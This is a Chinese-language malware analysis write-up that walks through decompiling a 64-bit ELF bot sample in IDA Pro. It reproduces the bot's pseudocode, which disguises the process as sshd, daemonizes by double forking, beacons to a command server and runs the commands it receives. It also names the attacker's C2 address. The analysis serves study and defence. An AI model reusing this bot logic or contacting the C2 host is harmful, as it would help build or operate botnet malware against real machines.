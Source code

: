 # 簡介
IDA Pro 是一款功能強大的反組譯器和除錯器，廣泛用於軟體逆向工程。它不僅是專業逆向工程師的首選工具，還被許多安全研究人員和惡意軟體分析師所青睞。以下是對 IDA Pro 主要功能的詳細介紹：
* **多平台支持：** IDA Pro 支持多種操作系統，包括 Windows、macOS 和 Linux。此外，它還能分析多種不同的二進制檔案格式，如 PE、ELF 和 Mach-O。
* **高度互動的使用者介面：** 使用者可以輕鬆地在圖形和文字模式之間切換，並使用豐富的視覺化工具來分析複雜的二進制檔案。
*  **樣本資料:**
    + sha256: 0b2a20aa35ad78f835614ae31a25b50c646aeb7bc7df3699b9b0d7c235cb8a22 
    + 64 bit 
    + elf 

# 使用步驟
* 將要分析的ELF檔用IDA Pro開啟會看到如下圖的架構圖，跟example_1比起來稍有不同

![Image text](https://github.com/Potassium-chromate/COMPUTER-PROJECT-DESIGN/blob/main/picture/example_2%E6%9E%B6%E6%A7%8B%E5%9C%96.png)

* 按下F5後IDA Pro會自動反編譯成pseudocode 

![Image text](https://github.com/Potassium-chromate/COMPUTER-PROJECT-DESIGN/blob/main/picture/example_2%E6%9E%B6%E6%A7%8B%E5%9C%96_%E7%B4%B0%E7%AF%80.png)

* 反編譯後的pseudocode 如下
```
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // edx
  int v4; // ecx
  int v5; // r8d
  int v6; // r9d
  int v7; // ebx
  unsigned int v8; // eax
  int v9; // ebx
  unsigned int v10; // eax
  int v11; // ecx
  int v12; // r8d
  int v13; // r9d
  int v14; // ebx
  char v15; // [rsp+0h] [rbp-1120h]
  char v16[4096]; // [rsp+50h] [rbp-10D0h] BYREF
  __int64 v17[10]; // [rsp+1050h] [rbp-D0h] BYREF
  int v18; // [rsp+10A0h] [rbp-80h] BYREF
  char v19[4]; // [rsp+10A4h] [rbp-7Ch] BYREF
  const char *v20; // [rsp+10A8h] [rbp-78h]
  unsigned int v21; // [rsp+10B0h] [rbp-70h]
  __int64 v23; // [rsp+10B8h] [rbp-68h]
  int v24; // [rsp+10C0h] [rbp-60h]
  int i; // [rsp+10C4h] [rbp-5Ch]
  char *v26; // [rsp+10C8h] [rbp-58h]
  __int64 v27; // [rsp+10D0h] [rbp-50h]
  unsigned int j; // [rsp+10DCh] [rbp-44h]
  const char *k; // [rsp+10E0h] [rbp-40h]
  char *v30; // [rsp+10E8h] [rbp-38h]
  char *m; // [rsp+10F0h] [rbp-30h]
  int v32; // [rsp+10FCh] [rbp-24h]
  const char *v33; // [rsp+1100h] [rbp-20h]
  int n; // [rsp+110Ch] [rbp-14h]

  v20 = (const char *)&unk_412725;
  if ( (unsigned int)access("/usr/bin/python", 0LL, envp) == -1 )
    v20 = "/usr/sbin/dropbear";
  else
    v20 = "sshd";
  if ( !(unsigned int)geteuid() )
    userID = 0;
  strncpy(*argv, &unk_412725, strlen(*argv));
  sprintf((unsigned int)*argv, (_DWORD)v20, v3, v4, v5, v6);
  prctl(15LL, v20, 0LL, 0LL, 0LL);
  v7 = time(0LL);
  v8 = getpid();
  srandom(v7 ^ v8);
  v9 = time(0LL);
  v10 = getpid();
  init_rand(v9 ^ v10);
  getOurIP();
  table_init();
  v18 = 0;
  table_unlock_val(1LL);
  v23 = table_retrieve_val(1LL, &v18);
  write(1LL, v23, v18);
  write(1LL, "\n", 1LL);
  table_lock_val(1LL);
  watchdog_maintain();
  v21 = fork();
  if ( v21 )
  {
    waitpid(v21, v19, 0LL);
    exit(0);
  }
  if ( (unsigned int)fork() )
    exit(0);
  signal(13, 1LL);
  while ( 1 )
  {
    while ( (unsigned int)initConnection() )
      sleep(5LL);
    getBuild();
    sockprintf(KHcommSOCK, (unsigned int)"arch %s", (unsigned int)"x86", v11, v12, v13, v15);
    v24 = 0;
    i = 0;
    while ( 1 )
    {
      v24 = recvLine((unsigned int)KHcommSOCK, v16, 4096LL);
      if ( v24 == -1 )
        break;
      for ( i = 0; i < (unsigned __int64)numpids; ++i )
      {
        if ( (int)waitpid(*(unsigned int *)(4LL * i + pids), 0LL, 1LL) > 0 )
        {
          for ( j = i + 1; j < (unsigned __int64)numpids; ++j )
            *(_DWORD *)(4LL * (j - 1) + pids) = *(_DWORD *)(4LL * j + pids);
          *(_DWORD *)(4LL * (j - 1) + pids) = 0;
          --numpids;
          v27 = malloc(4 * numpids + 4);
          for ( j = 0; j < (unsigned __int64)numpids; ++j )
            *(_DWORD *)(v27 + 4LL * j) = *(_DWORD *)(4LL * j + pids);
          free(pids);
          pids = v27;
        }
      }
      v16[v24] = 0;
      trim(v16);
      v26 = v16;
      if ( v16[0] == 46 )
      {
        for ( k = v26 + 1; *k != 32 && *k; ++k )
          ;
        if ( *k )
        {
          *k = 0;
          k = v26 + 1;
          for ( v26 += strlen(v26 + 1) + 2;
                v26[strlen(v26) - 1] == 10 || v26[strlen(v26) - 1] == 13;
                v26[strlen(v26) - 1] = 0 )
          {
            ;
          }
          v30 = v26;
          while ( *v26 != 32 && *v26 )
            ++v26;
          *v26++ = 0;
          for ( m = v30; *m; ++m )
            *m = toupper((unsigned __int8)*m);
          v32 = 1;
          v33 = (const char *)strtok(v26, " ");
          v17[0] = (__int64)v30;
          while ( v33 )
          {
            if ( *v33 != 10 )
            {
              v14 = v32;
              v17[v14] = malloc(strlen(v33) + 1);
              memset((void *)v17[v32], 0, strlen(v33) + 1);
              strcpy(v17[v32++], v33);
            }
            v33 = (const char *)strtok(0LL, " ");
          }
          processCmd((unsigned int)v32, v17);
          if ( v32 > 1 )
          {
            for ( n = 1; n < v32; ++n )
              free(v17[n]);
          }
        }
      }
    }
  }
}
```

# 分析
從上述的 pseudocode 可以看出該惡意程式的運作大致能分為以下步驟
1. **初始化：**
  * 惡意軟件檢查/usr/bin/python系統上是否存在。如果不存在，則設置``v20``為/usr/sbin/dropbear，否則設置``v20`為sshd。
  * 它檢查有效用戶 ID 是否為 ``root (0)``。如果是，則將 設為``userID0``。
  *  它使用``strncpy``和``sprintf``將 process 的名稱修改為``sshd``或是 ``usr/sbin/dropbear``。
  *  調用該``prctl``函數來設置 process 的名稱，使其更難以在 process list 中檢測到。
2. **Watchdog：**
  * 它調用``watchdog_maintain()``，由於無法反編譯該副程式，目前只能推測這是一個確保惡意程式繼續運行並且不被終止的函數。
3. **Forking:：**
  * 該程序將自身分叉兩次。這是daemon和惡意程式用來將自身與終端分離並在後台運行的常用技術。其操作是將parent processes退出，child processes繼續運行。
4. **主程式：**
  * 該惡意軟件嘗試使用 建立連接``initConnection()``。如果失敗，則會等待 5 秒，然後重試。
  * 它開始利用``getBuild()``來收集有關受感染計算機的一些信息。
  * 然後，它使用``sockprintf()``將該信息（特別是X86架構）發送到遠程服務器。
  * 惡意軟件等待來自遠程服務器的命令。當收到命令時，它使用``processCmd()``處理該命令。
5. **Child process管理：**
  * 惡意軟件會跟踪它產生的 child process （可能用於執行命令）。它定期檢查這些子進程是否已退出並清理其資源。


# 細節分析
對著原本 pseudocode 中的`initConnection()`點兩下，即可看到該子程式的 pseudocode 

![Image text](https://github.com/Potassium-chromate/COMPUTER-PROJECT-DESIGN/blob/main/picture/initConnection_%E7%B4%B0%E7%AF%80.png)
此時可一窺其運作細節，此時可看到其中有個名為commServer的可疑數組

![Image text](https://github.com/Potassium-chromate/COMPUTER-PROJECT-DESIGN/blob/main/picture/commServer_%E7%B4%B0%E7%AF%80.png)

可以發現攻擊者的ip是 `45.56.96.91:23`





